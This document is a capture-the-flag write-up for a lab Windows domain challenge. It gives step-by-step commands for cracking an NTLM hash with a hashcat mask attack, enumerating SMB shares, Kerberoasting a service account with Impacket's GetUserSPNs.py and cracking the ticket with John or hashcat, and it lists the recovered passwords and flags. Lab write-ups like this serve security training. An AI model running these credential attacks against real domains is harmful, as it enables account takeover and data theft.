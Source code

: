 # Scorching

Windows domains are hot. Scorching even. Note: a domain controller is spun up on-demand. It may take a while to fully boot upon launch. Verify whether it's online by checking if port 445 is open on <10.6.0.2>.

**NOTE** : The private _OpenVPN_ configuration file is required

## Writeup

### Task 1 - Password (75 points)

Can you find out the password for the hash in the file? It is the account for the "NAccount" user.

**Hint**: The password does not meet the password complexity policy as it is _less than 8 characters and only includes letters and numbers.

Given an unknown hash, and the intel that this password is formed with less than 8 characters and only includes letters and numbers_.

1. According to ref[1], it seems that this hash is likely to be a NTLM hash because of the first part of the hash gives `aad3b435b51404eeaad3b435b51404ee`, which means that it is not being stored as an LM hash. Also, NTLM is a hashing algorithm created by Microsoft, which is appropriate to this challenge

	![Analysis on given hash in format NTLM](./img/task_1_step_1_given_hash_partition.png)

2. Thus, mask attack with hashcat was used to crack the 2nd part (ie. LMhash:NThash) of the given hash (stored in text file `ntlm.txt`), and command `hashcat -a3 -m1000 -O -1 ?l?u?d ntlm.txt ?1?1?1?1?1?1?1 --increment -v` is used to launch the definied mask attack with hashcat, which

	- `-a3` : Mask attack code
	- `-m1000` : Hash type code
	- `-1 ?l?u?d` : First custom charset option, see [ref](https://hashcat.net/wiki/doku.php?id=mask_attack) for more details
	- `ntlm.txt` : Hash file that contains the hash to be cracked here
	- `?1?1?1?1?1?1?1` : Mask to be used in final increment
	- `--increment` : Enable incremental masking attack, which the cracking will start from ?1 to ?1?1 to ?1?1?1 to ... to ?1?1?1?1?1?1?1 (end)

	![Successful mask attack on the given NTLM hash with hashcat](./img/task_1_step_2_ntlm_hash_cracked_hashcat.png)

3. You should be able to see the password in plaintext when the NThash is cracked, ie. `NAccount:H4cky21`

### Task 2 - Scorching (100 points)

Can you find out the flag hidden in the shared directory for the "SAccount" user?
Hint: the password is part of rockyou.txt.

0. Given the recon with `nmap` toward the target url, we can see that the port `445` with common vulnerable (cuz of `smb`) service `microsoft-ds`  version `2012 R2` is open

	![All open ports listed with corresponding service with nmap](./img/task_2_step_0a_nmap_scan_port_445_open.png)

	![Service details running on port 445](./img/task_2_step_0b_nmap_port_445_all_details.png)

1. Although now we have the credential of `NAccount:H4cky21`, however we need to access the shared directory as user `SAccount`, which is not accessible by NAccount. So first we can start from finding accessible and non-accessible directories with command `smbmap -u "NAccount" -p "<password>" -H 10.6.0.2`

	![List shared directories and relevant permissions as NAccount with smbmap](./img/task_2_step_1_smbmap_scan_result_perm.png)

2. Since the task name `scorching` has a synonym `roasting`, thus we can deduce that it is related to `Kerberoasting attack` (see [here](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast) to know more)
3. By using the Python script [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from [Impacket](https://github.com/SecureAuthCorp/impacket), which allows us to find Service Principal Names (SPNs) that are associated with normal user account, we are able to find the **Keberos** hash of user `SAccount` with command `python3 <path>/GetUserSPNs.py -request -dc-ip <IP_ADDRESS> <DOMAIN.FULL>/<USERNAME>:<PASSWORD>`

| Option                | Description                                                                                      |
| --------------------- | ------------------------------------------------------------------------------------------------ |
| `-request`            | Requests TGS (Ticket-Granting Service) for users and output them in JohnTheRipper/hashcat format |
| `-dc-ip <IP_ADDRESS>` | IP address of the Domain Controller, ie. `10.6.0.2` here                                         |
| <DOMAIN.FULL>         | insecureAD.local                                                                                 |

ie.  `python3 <path>/GetUserSPNs.py insecureAD.local/NAccount:<password> -dc-ip 10.6.0.2 -request`

**NOTE** : Use command `locate <FILE_NAME>` to find if the Python script can be found on your Linux system, or it may be required to clone the `Impacket` repo to and set it up in order to run the script.

![Found SAccount's Keberos hash dump with GetUserSPNs.py Python script](./img/task_2_step_3_kerberos_hash_for_user_SAccount.png)

4. After copy the entire Keberos hash returned to file `kerberos_dump.hash`, we can use JohnTheRipper or Hashcat to crack this hash, with wordlist `rockyou.txt` (available [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) or `/usr/share/wordlists` directory on Kali)

- JohnTheRipper command `john kerberos_dump.hash --wordlist=<path_to_rockyou> && john kerberos_dump.hash --show`
- Hashcat command `hashcat64 -a 0 -m 13100 kerberos_dump.hash <path_to_rockyou>`

	![Crack the Keberos dump hash with John The Ripper successfully](./img/task_2_step_4_kerberos_hash_cracked_successfully.png)

5. After cracking the Keberos hash (password should be `MySpaceXXX`), we are able to access those shared directories as user `SAccount` now, and we can see that the directory `SpaceRace` is *readable* with this account. Thus, the flag file on this directory should be readable too.

	![Access the directory `SpaceRace` as user `SAccount` and read the flag file successfully](./img/task_2_step_5_access_smb_directory_successfully.png)

## Flags

1. H4cky21
2. CTF{Kerberoasting_Flag_SpaceRace}

## References

- [SecretsDump Demystified](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)
- [Intro to Windows Hashes](https://chryzsh.gitbooks.io/darthsidious/content/getting-started/intro-to-windows-hashes.html)
- [About Hashcat](https://hashcat.net/hashcat/)
- [Mask Attack with Hashcat](https://hashcat.net/wiki/doku.php?id=mask_attack)
- [SANS : SMB Access From Linux](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blta6a2ae64ec0ed535/5eb08aaeead3926127b4df44/SMB-Access-from-Linux.pdf)
- [Abput Kerberoast Attack](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast)
- [Impacket : a collection of Python classes for working with network protocols](https://github.com/SecureAuthCorp/impacket)
- [Wikipedia - Keberos](https://en.wikipedia.org/wiki/Kerberos_(protocol))
- [A little guide to SMB enumeration](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)
- [Brute Force Service Cheat Sheet](https://book.hacktricks.xyz/brute-force)
- [About Hashcat](https://hashcat.net/hashcat/)
- [About John The Ripper](https://www.openwall.com/john/)